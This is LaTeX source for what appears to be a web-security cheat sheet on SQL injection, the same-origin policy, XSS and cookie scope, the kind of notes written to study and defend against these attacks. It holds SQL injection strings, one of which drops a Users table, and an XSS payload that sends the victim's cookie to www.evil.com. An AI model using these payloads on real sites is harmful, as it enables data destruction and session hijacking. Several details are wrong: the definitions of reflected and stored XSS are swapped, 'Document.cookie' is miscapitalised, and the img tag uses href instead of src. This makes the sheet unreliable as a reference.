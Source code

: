 \documentclass[10pt,landscape]{article}
\begin{document}
\begin{multicols}{3}
Can use \texttt{--} to comment out rest of the line, \texttt{;} to chain queries

Sanitize user input (whitelist characters or escape input string to not include special characters \texttt{', +, -, ;}

\textit{Prepared statements}: Predefined allowed commands

\begin{verbatim}
SELECT ... where user=' ' or 1=1; --
SELECT ... where user=' '; DROP TABLE Users; --
\end{verbatim}

\section{Same-Origin Policy}

\texttt{origin = protocol + hostname + port}

Enforced by web browsers; each site in the browser is isolated from all others but multiple pages from same site are not isolated

Cross-origin communication allowed through \texttt{postMessage}, receiving origin decides whether or not to accept


\section{XSS Attacks}

\textit{Reflected}: attacker places Javascript on benign web service for victim to load \\
\textit{Stored}: attacker gets user to click on specially-crafted URL with script in it, web service reflects it back

\textbf{Example payloads}

\begin{verbatim}
<script>window.open("www.evil.com/sendcookie?cookie="
    + Document.cookie)</script>
\end{verbatim}

\begin{verbatim}
<img href="test.png" onerror="alert()"></img>
\end{verbatim}

\section{Sessions}

\textbf{Cookie Scope}

\texttt{domain} can be any domain suffix of URL-hostname except top-level TLD.


\end{multicols}
\end{document}
